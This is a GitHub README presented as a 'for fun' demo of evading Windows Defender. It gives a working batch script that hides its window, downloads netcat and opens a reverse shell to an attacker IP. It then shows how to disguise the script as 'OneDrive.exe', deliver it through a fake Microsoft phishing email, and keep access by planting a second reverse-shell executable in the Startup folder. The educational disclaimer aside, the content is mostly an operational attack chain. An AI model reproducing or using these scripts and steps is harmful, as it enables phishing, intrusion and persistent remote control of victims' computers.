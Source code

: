 # Bypassing-Windows-Defender-for-fun
Disclaimer:

This presentation is intended solely for educational purposes to increase awareness about phishing attacks and cybersecurity threats. The techniques demonstrated are to help you recognize and defend against potential threats. By attending this presentation, you acknowledge that any misuse or illegal use of this information is strictly prohibited and is not endorsed. The presenter bears no responsibility for any such misuse.

In this demo I am taking advantage of simple things, casual softwares intended for ethical use cases and I shape them to be dangerous assets to hack our way in.
Let’s take a look at the script we are using.
`@echo off
call getCmdPid
call windowMode -pid %errorlevel% -mode hidden & curl https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe -o C:\Users\Public\Downloads\nc64.exe & C:\Users\Public\Downloads\nc64.exe -e cmd.exe 10.0.5.29 9999`

What the script does :

`@echo off` is a standard directive in batch files (.bat) in Windows, and it serves a similar purpose to #!/bin/bash in Linux shell scripts. Its job is to not show the commands that are being ran.

`getCmdPid.exe` is responsible for printing the PID number of the windows process we are using.

`call windowMode -pid %errorlevel% -mode hidden` now we pass the pid number of the cmd prompt we are currently on to the windowmode.exe and hiding any potential errors.

`the rest of the script` downloads netcat (a remote control tool) and outputs it to a set folder, in this case C:\Users\Public\Downloads and then runs it with the parameter –e to connect to our listening machine 10.0.5.29 through the port 9999.

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/1188ce4d-34c9-4d61-91d8-227485c9936f)

We then use bat-to-exe-converter to convert/build our batch file to an exetuable file.

#things to change:

-import an icon to be set as the final exe’s icon.

-change exe format to 64-bit | Windows (invisible) ///This makes the exe run without triggereing the cmd.exe prompt to show.

Note: You can check the Request admin privileges box to make the final exe request admin privs to run.

The result : `OneDrive.exe`

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/b7ad88d4-6deb-4172-ba11-3c0bdd222b42)
![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/0b346d79-4c03-43c2-89e7-9b26a173581a)

I’ve crafted a fake email using some sentences that official Microsoft teams use in their texts and used a fake Microsoft account to make it look more authentic. You can find the email here https://pastebin.com/XFrn4Z4w

Now, onto a Windows machine, the first test subject is Windows 10 version 2004. This version of Windows 10 was released back on May 27, 2020, so it's not that old.

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/ada32d5b-c710-49ea-8af3-7aa7ee082902)

We now start our listner on the 9999 port and proceed to run the OneDrive.xe on the Windows machine.

`$nc –lnvp 9999`

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/1a8c2498-7425-4b33-98c6-13d4da3b55cc)

After the victim has ran our malicious file, we get a reverse shell. Meaning we can control his computer and all sorts of thing including removing/creating folders and files acccessing every path we want. But there are some limitations. As you can see we are logged in as the user so that means we only have the user privileges and we need to gain Administrator rights in order to have all the rights and permissions available on the system.

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/c7ed7d38-e6f4-47af-bc33-32df0b67dd2d)

# Privilege Escalation and Persistence :

On this phase I’ve prepared a script that will help us gain a reverse shell with admin privileges and in any case we lose access to the machine or our shell breaks. No worries we’ll get another one once the victim machine has restarted.
The script is as follows :

`@echo off
C:\Users\Public\Downloads\nc64.exe -e cmd.exe 10.0.5.29 9999`

-I used the bat-to-exe-converter to convert/build this batch script to an exetuable file and named it `startup.exe`.

The first step is to transfer our exe to the victim machine. So to do that I started a simple http server where my startup.exe is located. To do that use the following command:

`$python3 –m http.server 80`

On the victim machine change directory to `C:\Users\Public\Downloads\` . Then download the script and move it to the `startup applications folder` using these commands :

`$curl –o startup.exe http://10.0.5.29/startup3.exe`

`$copy "C:\Users\Public\Downloads\startup.exe" "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup\"`

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/1d65e504-d7f3-4b5c-b86a-c80e91b90035)

Finally you can send a command to reboot the machine ‘’shutdown –r –t 0’’ or wait for the victim user to reboot it and you’ll get a shell again but this time you’ll have admin rights.

TIP: Don’t forget to start your listener again.

